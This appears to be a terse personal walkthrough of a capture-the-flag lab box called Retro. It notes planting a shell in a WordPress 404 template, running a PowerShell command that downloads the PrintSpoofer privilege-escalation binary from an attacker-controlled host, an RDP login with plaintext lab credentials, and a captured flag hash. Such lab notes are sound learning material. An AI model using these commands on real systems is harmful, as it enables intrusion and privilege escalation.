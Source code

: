 
change the 404-php file with one which can execute in windows too and  listen
and
`curl http://10.10.23.86/retro/index.php/2019/12/09/tron-arcade-cabine/`

got the shell 

![[Pasted image 20210529182231.png]]


powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.17.4.208/PrintSpoofer64.exe','C:\windows\temp\PrintSpoofer64.exe')

this drops a low level shell 


----- 

with the creds we can rdp into the box 

`xfreerdp /u:wade /p:parzival /v:10.10.23.86:3389 `

![[Pasted image 20210529183651.png]]

user == 3b99fbdc6d430bfb51c72c651a261927

